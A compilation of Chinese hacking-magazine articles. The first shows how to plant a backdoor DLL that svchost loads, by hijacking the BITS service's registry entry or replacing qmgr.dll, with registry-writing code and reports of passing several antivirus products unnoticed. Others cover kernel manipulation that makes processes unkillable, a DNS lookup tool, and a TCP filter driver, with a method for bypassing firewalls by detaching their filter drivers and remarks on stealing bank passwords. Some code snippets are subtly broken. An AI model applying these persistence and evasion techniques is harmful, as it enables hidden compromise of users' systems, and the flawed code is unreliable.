根据 svchost 进程启动系统服务的方式，要让其启动我们自己编写的服务，需要解决以下几个问题：首先是如何编写一个符合 svchost 启动服务标准的 DLL 服务文件，在其中实现我们自己的后门代码。这个 DLL 后门的功能也可以分为两种，一种是利用该 DLL 把所有的后门功能都实现，另一种是把 DLL 做成一个启动文件，在需要的时候启动另一个普通的 exe 后门。其次是如何安装一个由 svchost 启动的服务，即如何让 svchost 进程在系统启动时运行我们自己的 DLL 服务。除了安装一个新的由 svchost 来启动的服务外，我们可以使用替换现有服务的方式来做。替换现有服务也可以使用两种方式，一种是直接替换实现服务功能的 DLL 文件，用我们自己写的后门 DLL 覆盖掉真正的服务 DLL 文件；另一种是修改注册表中 svchost 启动的某服务指向的 DLL 文件名键值，让该服务启动时运行我们指定的 DLL 程序。

图1

从图1中可以看出，该系统启动了五个 svchost 进程，PID 为 1536 的 svchost 进程启动了二十多个系统服务，这是因为微软把这些由 svchost 启动的服务分成了多个组，同组服务共享一个 svchost 进程，以便于管理调试，节省资源开销。组的区别是由服务的可执行程序后边的参数决定的。

## 具体实现

根据以上思路，我们首先要找到一个合适的、已存在的、由 svchost 启动的服务，并且该服务不是系统的核心或重要服务，或者说其是否正常运行一般不会引起使用者的怀疑。我们替换的应该是用户基本上不使用或是很难察觉的服务 DLL。这里我们以 BITS 服务为例来进行测试和更改。在我计算机里该服务对应的程序位置为 C:\WINDOWS\system32\qmgr.dll，默认状态为停止，启动方式为手动。根据描述可知该服务用以在后台传输客户端和服务器之间的数据，会影响到 Windows Update 服务。不过一般用户不会察觉到是该服务的问题，所以我们打算利用它来做测试。一种实现方式是先编写一个 DLL 服务文件，实现一个启动其他 exe 的简单功能，然后修改 BITS 服务在注册表中对应的 ServiceDll 参数，并调整状态和启动方式使其运行起来。另一种方式是不修改任何注册表信息，直接替换原始 DLL，在该服务启动时运行我们伪造的 DLL。

- 1. 编写伪造的 BITS 服务 DLL 文件

这里我把 DLL 做成一个启动文件，功能是启动一个普通的 exe 程序。首先这个 DLL 要符合 Windows 服务规范。因为服务程序需要接受系统服务控制管理器的调度，包括服务的开始、停止和恢复等。当服务控制程序向服务程序发送以上操作的控制请求时，这些操作必须要服务程序正确响应才行，否则就会报错。一个 DLL 服务程序一般都拥有固定的三个部分：DLL 文件固定的入口函数 DllMain，服务 ServiceMain 函数和服务控制函数 ServiceHandler。

DllMain 函数：此函数和 exe 程序的 main 或 WinMain 函数是一样的，它是 DLL 程序的可选入口函数，DLL 程序默认情况下都会有该函数，但本文里我们不使用该函数实现功能。

服务 ServiceMain 函数：此函数和 exe 服务程序一样，函数 ServiceMain 是服务的入口点。在服务控制程序发送一个开始请求到控制调度程序时，控制调度程序就会执行 ServiceMain 函数。ServiceMain 会调用 RegisterServiceCtrlHandler 函数来注册响应控制请求的函数，即服务控制函数 ServiceHandler。接下来就可以写下所要完成的任务代码，这里是启动一个记事本程序，当服务启动后记事本就会被运行起来。

服务控制函数 ServiceHandler：该函数会在服务进程从服务控制程序接收到一个控制请求时被控制调度程序所调用。无论何时 ServiceHandler 函数被调用，都要调用 SetServiceStatus 函数向服务控制管理器报告它当前的状态，使服务程序能够正常通过服务管理控制重要函数。

- 2. 更改 BITS 服务的启动类型为自动，并启动该服务

Windows XP 默认情况下 BITS 服务是停止的，且启动类型为手动。为了达到自启动的目的，我们必须将该服务设为自动运行并启动，这与《黑客防线》2010 年第 10 期《利用 Windows 系统服务启动后门程序》一文中所讲的是一样的。

- 3. 采用修改 BITS 服务指向的 DLL 文件的键值方式

默认该服务对应的 DLL 文件为系统目录下的 qmgr.dll，通过在注册表中搜索，发现有三处注册表键值含有该文件路径：

```
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\BITS\Parameters
```

```
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services\BITS\Parameters
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\BITS\Parameters
```

具体其中哪个是有效设定的键值不得而知，网上有资料说 ControlSet002 项是恢复服务配置时所使用的，在这里我打算全部修改。修改该服务注册表键值的部分代码如下：

```c
char Key[80] = "SYSTEM\\CurrentControlSet\\Services\\BITS\\Parameters\\";
HKEY hkey1;
unsigned long kl = REG_OPENED_EXISTING_KEY;
LPSTR Name_Path1 = "C:\\notepad.dll"; // 我们写的测试后门DLL
LPSTR Name_Reg1 = "ServiceDll";
if (RegOpenKeyEx(HKEY_LOCAL_MACHINE, Key, 0, KEY_WRITE, &hkey1) == ERROR_SUCCESS) {
    RegSetValueEx(hkey1, Name_Reg1, 0, REG_EXPAND_SZ, (BYTE*)Name_Path1, strlen(Name_Path1));
    RegCloseKey(hkey1);
}
```

- 4. 采用替换掉原始的 qmgr.dll 文件的方法

该方法即替换 Windows 系统文件，具体代码见《黑客防线》2010 年第 10 期《利用 Windows 系统服务启动后门程序》一文。

## 测试效果

在默认安装的 Windows XP SP3 下，分别对装有 Norton Internet Security 2010、McAfee 防病毒和防火墙组合装、小红伞、KIS 2010 等防护软件环境下进行测试，利用修改注册表的方法和直接替换服务 DLL 的方法均能顺利通过前三款防护软件而无提示，KIS 在程序运行时会提示用户程序没有数字签名。测试程序没有解决被替换掉的 DLL 服务本身功能的实现，在替换时要选择不常用且停止的 svchost 启动的服务。我觉得在伪造的 DLL 中直接实现原 DLL 的功能可能性不大，利用 DLL 劫持函数转发的方式来做比较现实，但我没能测试成功。希望感兴趣的朋友多多交流。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动  
关键词：Windows 7、进程保护

# 网谈 Windows 7 x64 下的进程保护

文/广东工业大学 胡文亮

我在 2010 年第 10 期的《黑客防线》上发表了拙文《在 Windows 7 x64 下隐藏进程和保护进程》，并于后再次看了看自己文章附带的代码。平心而论，我对隐藏进程的代码感到差强人意，但是对保护进程的代码却感到不甚满意，因为我发现如果被保护的进程意外退出而没有取消保护（恢复 RundownProtect 的值为原值），就会立即蓝屏，而且最重要的是，修改 RundownProtect 的值会导致不能创建进程等一系列副作用的产生。经过修改，我写了一个没有上述 bug 的 Windows 7 x64 进程保护。

首先讲一个官方的进线程保护方案。微软一直不喜欢我们玩 Hook，也不喜欢我们玩什么进程保护。但是在即合理，世上是存在保护进程这个需求的。所以微软在 Windows Vista 某个 SP 以后的操作系统里引进了一个函数，叫 ObRegisterCallbacks，该函数可以注册一个回调，让你监视系统所有的进线程句柄操作，并加以干涉。可惜，使用这个函数必须有微软认证的数字签名（免费的“测试签名”都不行，必须是那种花钱买的签名），否则会返回拒绝访问。我在“虾壳”的博客上看到两种破解方案：

> 根据 DriverObject，得到 LDR_DATE_TABLE_ENTRY 结构（LDR_DATE_TABLE_ENTRY 结构位于 DriverObject 的 DriverSection 项），并将 LDR_DATE_TABLE_ENTRY 结构中 +0x68 的 flag 值改为 0x20 即可；伪造 ObRegisterCallbacks 函数的返回地址。

不过经我测试（第一种方案），效果不太理想，函数依旧返回 0xC0000022，很有可能是微软打补丁时升级了，防御了这种 bypass 方案。既然微软这么不给面子，我们只能使用自己的 DKOM 方案了。这次我们修改 EPROCESS 的 FLAG2 偏移，把这个值修改为 1 即可（原理就是把进程设置为“被保护的进程”）。

```c
/*0x43C*/ ULONG32 Flags2;
struct {
  ULONG32 JobNotReallyActive:1;
  ULONG32 AccountingFolded:1;
  ULONG32 NewProcessReported:1;
  ...
  ULONG32 ProtectedProcess:1; // 11 BitPosition
  ...
  ULONG32 AffinityPermanent:1;
};
```

```c
case IOCTL_ProtectProcess:
{
  __try {
    memcpy(&dwInPid, pIoBuffer, sizeof(dwInPid));
    status = PsLookupProcessByProcessId(dwInPid, &eProcess);
    if (NT_SUCCESS(status)) {
      dwPOV = Get64BitValue((PULONG64)((ULONG64)eProcess + PROCESS_FLAG2_OFFSET));
      Set64bitValue((PULONG64)((ULONG64)eProcess + PROCESS_FLAG2_OFFSET), dwPNV);
      dprintf("[x64Drv] Protect Process finished");
    }
  } __except(EXCEPTION_EXECUTE_HANDLER) {}
  break;
}
```

经我测试，设置了这个值后，OpenProcess 会返回 0，任务管理器关不掉，并返回“该操作对此进程无效”。并且没有产生副作用，比如说被保护的进程可以正常创建新进程。即使进程异常退出，也不会蓝屏，如图1所示。

但是即使进程被保护了，进程的线程依然能被打开，如果使用 ToolHelp 函数枚举进程的线程，并使用 OpenThread + TerminateThread 依次结束所有线程，则进程还是相当于没有保护。所以我们必须把线程也保护上。在这里，我们可以把 ETHREAD 的 CROSS_THREAD_FLAGS 设置为 0x10。为什么是 0x10 而不是 0x2B 呢？还要从一段反汇编代码说起（截取于对 PspTerminateThreadByPointer 的反汇编，完整的反汇编代码太长，请自行使用 uf 命令查看）。

```asm
nt!PspTerminateThreadByPointer:
fffff800`03ae574 48895c2408  mov qword ptr [rsp+8], rbx
```

让我简单地解释一下这几段反汇编代码，主要是讲给看不懂 64 位汇编语言的朋友。第一段代码的作用是把 `PspTerminateThreadByPointer` 的三个参数（`ETHREAD`、`ExitCode`、`DirectTerminate`）分别放到 `rbx`、`rbp`、`rsi` 寄存器中；第二段代码的作用是“测试”`ETHREAD+0x448` 偏移的值是不是 `0x10`，如果是，则跳转到指定地址处；第三段代码的作用是把代表“拒绝访问”的值放到“返回值寄存器”`eax` 中。综合这三段代码，我才把 `ETHREAD` 的 `CROSS_THREAD_FLAGS` 设置为 `0x10`。至于微软为什么要这么做，就只有天知道了。

实现的代码如下：

```c
case IOCTL_ProtectThread:
{
    __try
    {
        memcpy(&dwInTid, pIoBuffer, sizeof(dwInTid));
        dprintf("[x64Drv] dwInTid=%d", dwInTid);
        status = PsLookupThreadByThreadId(dwInTid, &eThread);
        if (NT_SUCCESS(status))
        {
            dwTOV = Get32bitValue((PULONG64)((ULONG64)eThread + CROSS_THREAD_FLAGS_OFFSET));
            Set32bitValue((PULONG64)((ULONG64)eThread + CROSS_THREAD_FLAGS_OFFSET), dwTOV);
            dprintf("[x64Drv] Protect Thread finished");
        }
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
    }
    break;
}
```

测试效果如图 2 所示。

图 2

我以前还提到过用“线程消息洪水”的方式来结束线程（使用 `for` 循环连续对线程发送垃圾消息，让线程崩溃……）。

如果没有做相应的处理，即使挂钩 `KiInsertQueueApc` 保护线程也是白搭。经测试，这种结束线程的方式对被保护的线程无效。

不过加上了保护线程的代码后，竟然导致被保护的进程无法创建新进程！我思考了几天都没有结果，最后想了个比较笨的方法解决这个问题：在创建新进程之前，先取消对线程的保护，创建完新进程后，再恢复对线程的保护。经测试，问题解决。实现的代码如下：

```c
// 暂停对线程的保护
case IOCTL_PauseThrdProtect:
{
    __try
    {
        Set32bitValue((PULONG64)((ULONG64)eThread + CROSS_THREAD_FLAGS_OFFSET), dwTOV);
        dprintf("[x64Drv] Thread Protect Suspended!");
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
    }
    break;
}

// 恢复对线程的保护
case IOCTL_ResumeThrdProtect:
{
    __try
    {
        Set32bitValue((PULONG64)((ULONG64)eThread + CROSS_THREAD_FLAGS_OFFSET), dwTOV);
        dprintf("[x64Drv] Thread Protect Resumed!");
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
    }
    break;
}

// 应用程序创建新进程的代码（先取消保护，再恢复保护）
With DrvController
    Call .IoControl(CTL_CODE_GEN(&H801), VarPtr(0), 4, 0, 0)
End With
Shell "calc.exe", vbMinimizedNoFocus
With DrvController
    Call .IoControl(CTL_CODE_GEN(&H802), VarPtr(0), 4, 0, 0)
End With
```

细心的读者可能想问，怎么防止复制句柄结束线程呢？其实考虑复制线程句柄就有点多余了，因为 Windows 7 x64 的系统上似乎已经不能复制线程句柄了（若你不信的话可以用 `ZwQuerySystemInformation + ZwDuplicateObject` 获取进程句柄，看看有什么结果，反正我发现这样做已经没有任何效果了）。而且可以保证不是没有动态确定 `OB_TYPE_PROCESS` 这个硬编码的问题。上次的文章发表后，还是有朋友质疑这样做会不会被 PatchGuard 干扰导致蓝屏，于是我在写本文的前一天晚上睡觉前保护好进程，第二天早上起来一看，发现没有蓝屏。文章到此就结束了，如果大家还有什么想法，欢迎和我交流。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：VC、域名解析

# VC 打造域名解析链路器

文/GF

最近要做一个模拟 nslookup 命令的东西，最为头疼的是 ls 命令的模拟，因为没有现成的 API 可以调用，不过经过不懈的努力最终还是实现了。因为还未完善这部分功能，这里先和大家分享 nslookup 基本功能的模拟。  
微软其实提供了现成的 DNS 函数供我们使用，不过并不是很多，功能不如 nslookup 强大。以下的代码可以获取域名对应的 IP，以及被解析时经过的 DNS 服务器及其 IP，并且可以指定第一次解析的 DNS 的 IP 地址（本地 DNS）。  
软件效果如图 1 所示。

利用 DnsQuery 函数可以查询 A 类型以及 CNAME 类型（其他类型本代码没有用到）。关于这些类型的含义，做过网站的朋友肯定比较熟悉：在添加域名对应 IP 或者域名转向时就会用到。A 类型表示域名对应 IP，CNAME 表示别名。  
而通过查询 DNS_TYPE_A 的记录，会返回一个记录链表，首位即域名对应的 IP，也就是最后一站 DNS 解析出的最终 IP 地址。然后依次是回溯的 DNS 路径。

## 代码实现

首先判断是否指定 DNS。

```cpp
m_addrCtrl1.GetAddress(dwDNSServIP);//获取 IP
IP4_ARRAY ip4array,*pip4array;//设置 dns
ip4array.AddrCount=1;
ip4array.AddrArray[0]=htonl(dwDNSServIP);
DWORD dwip=htonl(dwDNSServIP);//转换为网络格式
if (!dwip)//注意，这里判断了，如果 IP 数据为 0，即没有 IP
    pip4array=NULL;//指针指向 NULL
DNS_Status = DnsQuery(strName,
    DNS_TYPE_CNAME,
    DNS_QUERY_BYPASS_CACHE,
    pip4array,
    &ppQueryResultsSet,NULL);//待查询域名的别名 CNAME
```

DnsQuery 函数的第四个参数设置 DNS，如果为空，那么使用当前系统默认的 DNS 设置进行查询。  
执行成功后就可以得到最终解析的 DNS 服务器的名字了（如果有别名的话还可以得到别名）。

```cpp
tempStrName.Format("DNS:%s", ppQueryResultsSet->Data.CNAME);
//得到 dns 名字
```

我们获取查询链路用 DNS_TYPE_A 参数来执行 DnsQuery。代码如下：

```cpp
DNS_Status = DnsQuery(strName,
    DNS_TYPE_A,
    DNS_QUERY_BYPASS_CACHE,
    pip4array,
    &ppQueryResultsSet,NULL);
```

执行成功后首先获取域名对应的 IP：

```cpp
dwip=ppQueryResultsSet->Data.A.IpAddress;
hostip=ntohl(dwip);
m_ipaddrCtrl2.SetAddress(hostip);//得到的目标域名 IP
```

然后用循环获取链表的数据，DNS_RECORD 结构中的 pNext 指针表明了下一个记录的地址。

图 1

此处设置为默认本机 DNS 解析 www.baidu.com。可以看到对应的 IP 为 220.181.6.175，一共经过了 8 个 DNS（包括本机第一次使用的 DNS）。而这个结果与 nslookup 和 ping 命令执行的结果是一致的。输入 220.181.6.175 也可以正常访问百度。

## 原理分析

本功能实现主要依赖于 API 函数 DnsQuery。其原型及参数说明可以查看 MSDN。

```cpp
do {
    dwip = ppQueryResultsSet->Data.A.IpAddress;
    hostip = ntohl(dwip);
    //m_ipaddrCtrl2.SetAddress(hostip);
    str.Format("%s(%d.%d.%d.%d)", ...);
    HIBYTE(HIWORD(hostip)),
    LOBYTE(HIWORD(hostip)),
    HIBYTE(LOWORD(hostip)),
    LOBYTE(LOWORD(hostip)));

    m_ListBox.InsertString(iinsertPos, str);
    ppQueryResultsSet = ppQueryResultsSet->pNext;
} while(ppQueryResultsSet);
```

这样，我们就实现了获取查询链路的功能。  
（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动  
关键词：TDI、过滤驱动

# TDI 过滤驱动开发手记

文/倪程 王中杉

相对常见的协议栈，如 TCP/IP、IPX、NBF 等而言，传输驱动程序接口 TDI 是一个抽象层，主要提供网络层协议和传输层协议的实现。内核模式下的驱动可使用基本的网络函数访问此接口，并提供相关的网络函数给其他程序。TDI 位于内核模式，在 TDI 上层 Windows 提供了一个更为抽象透明的接口层供用户空间使用，即上层 API 函数，如 Winsock API 类。在大多数情况下，使用 Winsock API 函数就足够满足上层用户编写网络通信程序，实现客户端与服务器之间的双向通信；但在极少数环境下，如 IT 安全技术领域，则可能需要更高的网络性能，操作内核模式下的网络函数则可能是更佳的选择。本文主要内容摘自 codeproject.com 上的文章《An Introduction To Writing TDI Filter Drivers》，个人觉得 Vivane Zwanger 写得很好，涉及分层驱动的设计思想、IRP 请求的转发处理、设备栈的遍历以及 TDI 过滤驱动的设计。本文对其进行了一定的归纳总结，再加上了一些个人理解与大家一起分享。  
TDI 会创建四个网络设备，分别为 `\Device\Tcp`、`\Device\Udp`、`\Device\RawIp`、`\Device\Ip`，其中的 `\Device\Ip` 我们不必关心。真正传送 IP 数据的是 `\Device\RawIp`。就我们的过滤目的而言，IP 设备都不用关心，本文我们选择 `\Device\Tcp` 设备进行附着。

```cpp
#define TDI_ACCEPT (0x05)
#define TDI_DISCONNECT (0x06)
#define TDI_SEND (0x07)
#define TDI_RECEIVE (0x08)
#define TDI_SEND_DATAGRAM (0x09)
#define TDI_RECEIVE_DATAGRAM (0x0A)
#define TDI_SET_EVENT_HANDLER (0x0B)
```

本文选择比较简单的方法 `TDI_CONNECT` 进行阐述。首先我们需要将定义好的设备对象附着到感兴趣的驱动上：

```cpp
// 定义一个全局的设备扩展对象
typedef struct _EXTENSION {
    PDEVICE_OBJECT TopOfDeviceStack;
} EXTENSION_OBJECT, *PEXTENSION_OBJECT;

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject,
                     PUNICODE_STRING RegistryPath) {
    NTSTATUS ntStatus = STATUS_SUCCESS;
    PEXTENSION_OBJECT DeviceExtension;
    UNICODE_STRING FilteredDeviceName;
    unsigned int i = 0;

    DbgPrint("DriverEntry was called !\n");
    // 初始化一个设备对象
    ntStatus = IoCreateDevice(DriverObject, sizeof(EXTENSION_OBJECT),
                              NULL, FILE_DEVICE_NETWORK,
                              FILE_DEVICE_SECURE_OPEN, FALSE, &DeviceToBeFiltered);

    if (!NT_SUCCESS(ntStatus)) {
        IoDeleteDevice(DeviceToBeFiltered);
        DbgPrint("Attaching to TCP device failed !\n");
    } else {
        DeviceExtension =
            ((PEXTENSION_OBJECT)DeviceToBeFiltered->DeviceExtension);
        ...
    }
}
```

## TDI 过滤驱动简要分析

TCP 协议可能是在网络通信中最为普通的一种协议，下面我们自行定义一个过滤驱动设备，附着到目标设备 TCP 上，并捕获所有尝试来自 TDI 接口层的 TCP 连接。过滤驱动编写中，设备的附着操作是最为普遍的，并不只针对于 TDI。TDI API 提供了大量的请求方法类型：

```cpp
#define TDI_ASSOCIATE_ADDRESS (0x01)
#define TDI_DISASSOCIATE_ADDRESS (0x02)
#define TDI_CONNECT (0x03)
#define TDI_LISTEN (0x04)
```

使用 `IoAttachDevice` 函数，将定义的设备对象附着到 TCP 设备。

附着之前，MClose 和 MCleanup 函数需要初始化，因为它们会先于 `IoAttachDevice` 函数调用。它们等同于 IO 管理器的动作，因为 IO 管理器也不得不访问 TCP 设备并附着到过滤驱动上。

```cpp
for (i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
    DriverObject->MajorFunction[i] = NotSupported;
// TDI 使用 IRP_MJ_INTERNAL_DEVICE_CONTROL 函数
DriverObject->MajorFunction[
    IRP_MJ_INTERNAL_DEVICE_CONTROL] = Dispatch;
DriverObject->DriverUnload = UnloadDriver;
// 初始化 driver 函数后，接着需要将生成的设备对象附着 TCP 设备上。这里我们可以采用下面两个函数实现设备附着。
PDEVICE_OBJECT IoAttachDeviceToDeviceStack(
    IN PDEVICE_OBJECT SourceDevice,
    IN PDEVICE_OBJECT TargetDevice
);
```

其中第一个参数表示我们自己的过滤设备，第二个参数表示被附着的设备对象。函数调用成功后，返回一个设备对象指针，指向被附着的设备对象。若我们选择前者进行附着，那么如何将设备名称转化为设备对象呢？通过查看 DDK，我们发现在函数 `IoGetDeviceObjectPointer`，此函数可以通过设备名获得设备对象指针。注意，使用此函数时，设备对象的引用计数会增加 1，使用完后，需要我们调用 `ObDereferenceObject` 函数解除引用。我们再来看看下面这个函数，同样也是用于附着目标设备。

```cpp
NTSTATUS IoAttachDevice(
    IN PDEVICE_OBJECT SourceDevice,
    IN PUNICODE_STRING TargetDevice,
    OUT PDEVICE_OBJECT *AttachedDevice
);
```

其中第一个参数是我们自己的过滤设备，第二个参数是我们附着的目标设备，但是此时并不需要设备对象指针，而只是设备名，最后一个参数是指向我们附着的目标设备指针，等同于前一个函数的返回值，为一个输出值。这个函数使用起来较为方便些，不需要进行设备名到设备对象指针之间的转换。

```cpp
RtlInitUnicodeString(&FilteredDeviceName, L"\\Device\\Tcp");
ntStatus = IoAttachDevice(DeviceToBeFiltered, &FilteredDeviceName,
    &DeviceExtension->TopOfDeviceStack);
// DeviceExtension->TopOfDeviceStack 变量保存了 TCP 设备指针，
// 采用设备扩展结构方式可以很好的关联附着设备与被
// 附着设备之间的关系。
if (!NT_SUCCESS(ntStatus)) {
    UnloadDriver(DriverObject); // 若附着不成功，则卸载此驱动。
    DbgPrint("Attaching to TCP device failed!\r\n");
}
return ntStatus;
}

// 至此，简单的驱动入口函数 DriverEntry 实现完毕。
// 当系统使用其他 major 渠道函数层驱动传递 IRP 请求时，
// 程序全部默认交给 NotSupported 函数简单处理，即不做任何处理，
// 直接向驱动链的下一层发送 IRP。
NTSTATUS NotSupported(PDEVICE_OBJECT DeviceObject,
PIRP Irp) {
    NTSTATUS ntStatus = STATUS_SUCCESS;
    PEXTENSION_OBJECT DeviceExtension =
        (PEXTENSION_OBJECT)DeviceObject->DeviceExtension;
    // 跳过当前设备，不对当前栈进行处理。
    IoSkipCurrentIrpStackLocation(Irp);
    // 将此 Irp 传给 TCP 设备栈
    ntStatus = IoCallDriver(DeviceExtension->TopOfDeviceStack, Irp);
    return ntStatus;
}
```

注意：这里涉及一个 IO 堆栈的概念，IO 堆栈用 `IO_STACK_LOCATION` 结构表示，其与设备栈一一对应。IRP 每次穿越一次设备栈，系统就会用 `IO_STACK_LOCATION` 结构记录本次操作的某些属性。若当前设备堆栈不对 IRP 做任何处理，则不需要对应的 IO 堆栈，但 `IoCallDriver` 函数会迫使 IO 堆栈下移一个单位，导致接受 IRP 请求的驱动 A 接收到的 IO 堆栈来自过滤此 IRP 对应的驱动 B 的 IO 堆栈。但实际上，在驱动 B 没有对 IRP 进行处理时，驱动 A 应该接受驱动 B 对应的上层 IO 堆栈。而 `IoSkipCurrentIrpStackLocation` 宏定义正好解决了此问题，此宏会迫使 IO 堆栈上移一个单位，即正好平衡了设备堆栈。

此时若捕获到了来自主功能号 `IRP_MJ_INTERNAL_DEVICE_CONTROL` 的 IRP 请求，则会触发函数 `Dispatch` 的调用。这里我们简单地捕获所有来自 `TDI_CONNECT` 的请求，统计请求次数。

```cpp
NTSTATUS Dispatch(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    NTSTATUS ntStatus = STATUS_NOT_SUPPORTED;
    PEXTENSION_OBJECT DeviceExtension =
        (PEXTENSION_OBJECT)DeviceObject->DeviceExtension;
    PIO_STACK_LOCATION StackIrpPointer = NULL;
    // 获取当前 IRP 对应的 IO 堆栈指针
    StackIrpPointer = IoGetCurrentIrpStackLocation(Irp);
    if (!StackIrpPointer) {
        DbgPrint("Fatal Error: IRP stack pointer is NULL!\r\n");
        return STATUS_UNSUCCESSFUL;
    }

    if (DeviceObject == DeviceToBeFiltered) {
        if (StackIrpPointer->MinorFunction == TDI_CONNECT) {
            count++;
            DbgPrint("A TDI connect (Function 3) via TCP has been invoked %d!\n", count);
        } else {
            // 打印其他的 TDI 请求函数码，如 TDI_LISTEN(0x04) 等。
            DbgPrint("TDI Request observed: function code: %x\r\n",
                StackIrpPointer->MinorFunction);
            // 统计上层应用程序通过 TDI 接口发送的 TCP 数据包的大小
            if (StackIrpPointer->MinorFunction == TDI_SEND) {
                DbgPrint("Application sent a TCP-Data packet of size %d\n",
                    StackIrpPointer->Parameters.DeviceIoControl.OutputBufferLength);
            }
        }
    }

    IoSkipCurrentIrpStackLocation(Irp);
    ntStatus = IoCallDriver(DeviceExtension->TopOfDeviceStack, Irp);
    return ntStatus;
}
```

至此，简单的 TDI 过滤驱动程序编写完成，读者可以用 Win DDK 进行编译，然后借助 DriverMonitor 工具将编译好的驱动加载到系统中，调用上层通信程序，如简单的 Winsock 通信程序以触发此驱动；这里也可以借助简单的系统命令，如 ipconfig、ping、route 来触发此驱动，然后借助 DbgView 工具可跟踪 DbgPrint 信息。

## TDI 过滤驱动深入分析

刚刚我们简要分析了如何捕获 TDI 驱动层上的 IRP 消息，下面将进一步扩大 Dispatch 函数的功能，使驱动程序能够获取到远端机器尝试借助 TCP 协议与本地驱动接口 TDI 进行通信的 IP 地址与端口号，甚至数据包信息。

当程序判断是 IRP 请求发送到我们事先定义好的 `DeviceToBeFiltered` 设备对象上，即判断此 IRP 请求必然是请求 TCP 设备，再根据 `if (StackIrpPointer->MinorFunction == TDI_...)` 进行更细粒度处理。

CONNECT 条件判断是否是客户端程序请求与服务器建立通信连接，若是，则获取此 IRP 对应的 IO 堆栈指针，此结构体对应的成员变量 Parameters 的值即为 TDI_REQUEST_KERNEL_CONNECT 结构体指针。此结构体又等同于：

```c
typedef struct _TDI_REQUEST_KERNEL {
    ULONG_PTR RequestFlags;
    PTDI_CONNECTION_INFORMATION RequestConnectionInformation;
    PTDI_CONNECTION_INFORMATION ReturnConnectionInformation;
    PVOID RequestSpecific;
} TDI_REQUEST_KERNEL, *PTDI_REQUEST_KERNEL;

// ...
// TDI_CONNECTION_INFORMATION / TRANSPORT_ADDRESS / TA_ADDRESS /
// TDI_ADDRESS_IP 等结构定义与说明
```

```c
if (!StackIrpPointer) {
    DbgPrint("Fatal Error: IRP stack pointer is NULL!\r\n");
    return STATUS_UNSUCCESSFUL;
}

if (DeviceObject == DeviceToBeFiltered) {
    if (StackIrpPointer->MinorFunction == TDI_CONNECT) {
        // 用 IO 堆栈 Parameters 参数值填充结构体 PTDI_REQUEST_KERNEL_CONNECT
        TDI_connectRequest = (PTDI_REQUEST_KERNEL_CONNECT)(&StackIrpPointer->Parameters);
        TDI_ConnectInfor = TDI_connectRequest->RequestConnectionInformation->RemoteAddress;
        TA_Address_data = (PTRANSPORT_ADDRESS)TDI_ConnectInfor->Address;
        TDI_data = (PTDI_ADDRESS_IP)(TA_Address_data->Address);

        IoSkipCurrentIrpStackLocation(Irp);
        ntStatus = IoCallDriver(DeviceExtension->TopOfDeviceStack, Irp);

        Address = TDI_data->in_addr;
        Port = TDI_data->sin_port;
        // ... 地址与端口提取
        DbgPrint("TCP address is %d.%d.%d.%d:%d\r\n", ...);
    }
}
```

上面的程序给出了如何打印出远端主机的 IP 地址与端口号信息。同样我们可以匹配 TDI 的其他请求，如过滤 TDI_SEND、TDI_RECEIVE、TDI_SEND_DATAGRAM、TDI_RECEIVE_DATAGRAM，以打印出服务器发往远端主机的 TCP 数据包以及远端发往服务器的 TCP 报文。

## TDI 过滤驱动的过滤技术

现在几乎每个防火墙都能够通过有效的配置对外部应用程序访问进行网络限制。一个未知的程序反弹连接到外网，或者是在本地监听端口，基本上都会引起报警。一些比较粗糙的防火墙往往只是 TDI 层级做了网络过滤，这种防护策略我们可以简单地通过摘除 tcpip.sys 上面的过滤驱动，并还原 tcpip.sys 的 Dispatch Routines 来绕过。

```c
RtlInitUnicodeString(&TcpipName, L"\\Device\\Tcp");
// 获取设备对象指针
ObReferenceObjectByName(&TcpipName, OBJ_CASE_INSENSITIVE, NULL, 0, *IoDriverObjectType, KernelMode, NULL, &TcpipDrvObj);
CurrentDevice = TcpipDrvObj->DeviceObject;
while (CurrentDevice != NULL) {
    CurrentDevice = CurrentDevice->AttachedDevice;
    CurrentDevice = CurrentDevice->NextDevice;
}
```

若防火墙设计成 NDIS 过滤层和 TDI 过滤层协同工作，才会放行网络连接，则简单的摘除上层过滤设备是徒劳的。从安全角度分析，谁更能接触到底层，谁就能更加确保数据信息的可靠性。软件防火墙基本上是构建在 Windows 内核之上，由于 Windows 内核分层驱动的特点，防火墙工作在哪一层实际上决定了防火墙的性能。工作在 TDI 层的防火墙是无论如何也不可能知道 NDIS 层的数据收发情况的，因为 TDI 驱动层在内核中位于 NDIS 驱动层之上。当然 NDIS 过滤驱动也存在自身的弱点，其不容易跟踪到发起建立连接请求的进程。因此，当前很多防火墙采用 TDI 与 NDIS 双层过滤的方式，实现数据包的监控。

看到这个结构体，大家在写过 socket 程序肯定是再亲切不过了，与 sockaddr_in 结构体极为相似。讲解了这么多有关地址与端口信息的转换，下面直接给出 Dispatch 函数的详细处理过程：

```c
NTSTATUS Dispatch(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    NTSTATUS ntStatus = STATUS_SUCCESS;
    PEXTENSION_OBJECT DeviceExtension = (PEXTENSION_OBJECT)DeviceObject->DeviceExtension;
    PIO_STACK_LOCATION StackIrpPointer = NULL;
    PTDI_REQUEST_KERNEL_CONNECT TDI_connectRequest;
    PTDI_CONNECTION_INFORMATION TDI_ConnectInfor;
    PTA_ADDRESS TA_Address_data;
    PTDI_ADDRESS_IP TDI_data;
    typedef struct _NETWORK_ADDRESS {
        unsigned char address[4];
        unsigned char port[2];
    } NETWORK_ADDRESS;
    // ...
    StackIrpPointer = IoGetCurrentIrpStackLocation(Irp);
}
```

## 安全性能分析

从攻防角度考虑，针对 TDI 驱动我们可以很容易实施报文监听与窃取，甚至篡改。此方法类似于中间人攻击技术，在肉机上截获远端主机发送过来的报文，修改成自己需要从肉机上得到的密码，如咨询银行卡密码、网银登录密码等。若服务端被控制了，那可能很容易就将此类重要信息拱手给 Crackers，从而准确地实现报文监听与窃取。

